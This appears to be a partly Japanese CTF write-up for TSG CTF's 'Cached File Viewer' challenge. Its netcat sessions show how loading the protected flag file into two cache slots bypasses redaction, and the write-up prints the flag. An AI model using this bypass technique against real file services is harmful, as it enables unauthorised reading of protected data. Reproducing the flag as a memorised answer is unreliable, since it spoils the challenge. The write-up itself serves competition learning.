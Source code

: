 # Cached File Viewer:misc:113pts
I implemented a simple file viewer!  

```
> ls ~
99-bottles-of-bear.txt  chal  diary.txt  flag  recipe.txt  start.sh
```

`nc 34.146.186.1 21001`  

[file_viewer.tar.gz](file_viewer.tar.gz)  

# Solution
カレントのファイル一覧、ソース、接続先が渡される。  
接続するとファイルをビューできるサービスのようだ。  
```bash
$ nc 34.146.186.1 21001
1. load_file
2. read
3. bye
choice > 1
index > 0
filename > diary.txt
Read 262 bytes.
1. load_file
2. read
3. bye
choice > 2
index > 0
content: - 202X/12/13
I set the password for my bank account, but it's a random string, so I'm afraid I'll forget it...
Oh, I know! I'll save it in the `flag` file just in case I forget it!
- 202X/12/14
This is just flavor text and is not related to solving the problem!

1. load_file
2. read
3. bye
choice > 1
index > 0
filename > flag
Read 22 bytes.
content: - 202X/12/13
I set the password for my bank account, but it's a random string, so I'm afraid I'll forget it...
Oh, I know! I'll save it in the `flag` file just in case I forget it!
- 202X/12/14
This is just flavor text and is not related to solving the problem!

Overwrite loaded file? (y/n) > y
1. load_file
2. read
3. bye
choice > 2
index > 0
content: **redacted**
```
もちろん`flag`は読めないらしい。  
問題名よりキャッシュのバグで二度読み取ると何らかのバイパスが生じると考え、ブラックボックスで試す。  
```bash
$ nc 34.146.186.1 21001
1. load_file
2. read
3. bye
choice > 1
index > 0
filename > flag
Read 22 bytes.
1. load_file
2. read
3. bye
choice > 1
index > 1
filename > flag
1. load_file
2. read
3. bye
choice > 2
index > 1
content: TSGCTF{!7esuVVz2n@!Fm}
1. load_file
2. read
3. bye
```
flagが得られた。  

## TSGCTF{!7esuVVz2n@!Fm}